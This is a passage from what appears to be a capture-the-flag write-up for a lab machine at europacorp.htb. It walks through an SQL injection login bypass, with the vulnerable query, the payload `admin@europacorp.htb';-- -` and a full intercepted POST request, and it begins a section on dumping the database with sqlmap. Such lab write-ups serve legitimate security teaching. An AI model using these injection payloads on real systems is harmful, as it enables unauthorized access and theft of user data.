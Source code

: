 I’ll check to see if the counting method is used here. If that’s the case, the
query will look something like:

    
    
    SELECT * FROM users WHERE email='$email' and password='$password_hash';
    

If I can guess an email that I want to log in as, injection could be as simple
as `admin@europacorp.htb';-- -`, resulting in:

    
    
    SELECT * FROM users WHERE email='admin@europacorp.htb';-- -' and password='$password_hash';
    

If the email `admin@europacorp.htb` exists, this will return one row, and let
me in. I’ll turn on Intercept in Burp Proxy, and submit `admin@europacorp.htb`
with any password. Burp catches the request, and I’ll edit it to include the
injection:

    
    
    POST /login.php HTTP/1.1
    Host: admin-portal.europacorp.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: https://admin-portal.europacorp.htb/login.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 39
    Connection: close
    Cookie: PHPSESSID=6o0ld056n5a3v8gkvv57fg6dk5
    Upgrade-Insecure-Requests: 1
    
    email=admin%40europacorp.htb';--+-&password=a
    

On sending the request, I’ll turn off intercept, and back in Firefox I’m
logged in:

[
![image-20210122064126269](https://0xdfimages.gitlab.io/img/image-20210122064126269.png)
](https://0xdfimages.gitlab.io/img/image-20210122064126269.png)

[_Click for full
image_](https://0xdfimages.gitlab.io/img/image-20210122064126269.png)

#### Via SQL Data Dump / Crack

Without logging in, I can exploit this injection to dump data from the
database. Because nothing I submit is displayed back to me, I’ll have to use
either blind or potentially error-based SQLi. Rather than go deep into that
here, I’ll let `sqlmap` have a go at it. I’ll save one of the login requests
from Burp by right clicking and selecting Copy to file, and then pass it to
`sqlmap`. I’ll need to use `--force-ssl` as the HTTP site isn’t there, and
`--batch` will accept the default answers to all the prompts that pop up:

    